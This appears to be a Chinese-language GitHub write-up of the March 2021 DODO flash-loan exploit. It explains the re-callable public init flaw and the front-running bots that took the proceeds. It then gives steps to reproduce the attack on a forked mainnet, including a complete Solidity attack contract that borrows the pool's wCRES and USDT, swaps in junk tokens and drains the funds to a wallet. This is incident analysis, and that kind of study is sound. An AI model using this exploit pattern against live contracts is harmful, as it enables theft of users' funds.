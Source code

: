 # 0x00 概述

2021年3月,去中心化交易平台 DODO被黑客攻击，仅仅 wCRES/USDT V2 一个交易对就被转走价值近 98 万美元的 wCRES 和近 114 万美元的 USDT.

漏洞原理其实比较简单，一句话描述就是`Init函数为Public且可被多次调用`.

但精彩的地方在于,攻击者并没有成功拿到超200万美金的赃款,而是被Front Running Bot截了胡.

# 0x01 事件分析

* 攻击合约
```
0x910FD17B9Bfc42A6eEA822912f036EF5a080Be8A
```

* 攻击交易
```
0x395675b56370a9f5fe8b32badfa80043f5291443bd6c8273900476880fb5221e
```
![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/attack_tx.png)

* 问题代码如下

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/vul_code.png)

> 攻击者首先生成两种垃圾Token


> 调用 `wCRES/USDT` 交易对合约的flashLoan函数 借出上百万美金的wCRES 和USDT


> 通过init 函数把两个Token 地址改为自己刚刚生成的两个垃圾Token


> 并把垃圾Token 还给交易对合约, 躲过require的检查

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/require.png)

> 讽刺的是该合约声明了`notInitialized`的modifier,但却并没有使用...

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/modifier.png)

> 好玩的地方来了, 也许是攻击合约中的`Transfer Back`函数命名过于普通?

> 并且同样为`Public`权限

> 攻击者两次想把赃款从合约中提取出来的行为都被Bot监控到并且抢先提款,攻击者提了个寂寞...

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/Front%20Running.png)

> 只能说Dark Forest名不虚传.

# 0x02 复现方法

* 攻击事件发生在高度为`12000165`的块上, 所以我们可以选稍早的块去Fork以太坊的主网

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/your_api_key@12000000
```

* 通过ERC20Factory 生成两个垃圾Token 

> 由于ganache拿不到正确的返回值，也查不到Event 

> 所以需要修改一下ERC20Factory合约

> 这样才能查到新生成的Token地址是什么...

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/erc20_newToken.png)

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/ERC20_factory.png)

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/Add_Token_On_Metamask.png)

* 为了方便我已经手动把两个垃圾Token 打给了`wCRES/USDT` 交易对合约

* 攻击合约如下

```js
/**
 *Submitted for verification at Etherscan.io on 2021-01-22
*/

/*

    Copyright 2020 DODO ZOO.
    SPDX-License-Identifier: Apache-2.0

*/

pragma solidity 0.6.9;
pragma experimental ABIEncoderV2;

interface DVM{
    
    function flashLoan(
        uint256 baseAmount,
        uint256 quoteAmount,
        address assetTo,
        bytes calldata data
    ) external;
    
    function init(
        address maintainer,
        address baseTokenAddress,
        address quoteTokenAddress,
        uint256 lpFeeRate,
        address mtFeeRateModel,
        uint256 i,
        uint256 k,
        bool isOpenTWAP
    ) external;        
    
}


interface Token {
    function balanceOf(address account) external view returns (uint);
    function transfer(address recipient, uint amount) external returns (bool);
}


interface USDT{
    //USDT 并没有完全遵循 ERC20 标准 所以其接口需单独定义
    function transfer(address to, uint value) external;
    function balanceOf(address account) external view returns (uint);
}


contract poc{
    
    
    uint256 wCRES_amount =  130000000000000000000000;
    
    uint256 usdt_amount =  1100000000000;
    
    address wCRES_token = 0xa0afAA285Ce85974c3C881256cB7F225e3A1178a;
    
    address usdt_token = 0xdAC17F958D2ee523a2206206994597C13D831ec7;
    
    address maintainer = 0x95C4F5b83aA70810D4f142d58e5F7242Bd891CB0;
    

    // 这里是刚生成的Token1地址
    address token1 = 0xAB48b42e6a98e671ff58338D5dD2fE44409b82D6;
    // 这里是刚生成的Token2地址
    address token2 = 0x1469A47A1700Cdf4cF030c0Fc7F2f45F24008228;
    
    uint256 lpFeeRate = 3000000000000000;
    
    address mtFeeRateModel = 0x5e84190a270333aCe5B9202a3F4ceBf11b81bB01;
    
    uint256 i = 1;
    
    uint256 k = 1000000000000000000;
    
    bool isOpenTWAP = false;
    

    // 这里填你的测试地址
    address  wallet = 0x;
    
    address dvm_wCRES_USDT =  0x051EBD717311350f1684f89335bed4ABd083a2b6;
    
    function attack() public {
        
        address me = address(this);
        DVM DVM_wCRES_USDT = DVM(dvm_wCRES_USDT);
        DVM_wCRES_USDT.flashLoan(wCRES_amount,usdt_amount,me,"whatever");
        
    }

    
    function DVMFlashLoanCall(address a, uint256 b, uint256 c, bytes memory d) public{
        
        DVM DVM_wCRES_USDT = DVM(dvm_wCRES_USDT);
        DVM_wCRES_USDT.init(maintainer,token1,token2,lpFeeRate,mtFeeRateModel,i,k,isOpenTWAP);
        
        Token(wCRES_token).transfer(wallet, Token(wCRES_token).balanceOf(address(this)));
        USDT(usdt_token).transfer(wallet, Token(usdt_token).balanceOf(address(this)));
        
    }

}
```

* 攻击

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/attack.png)

* 成功

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/Success.png)
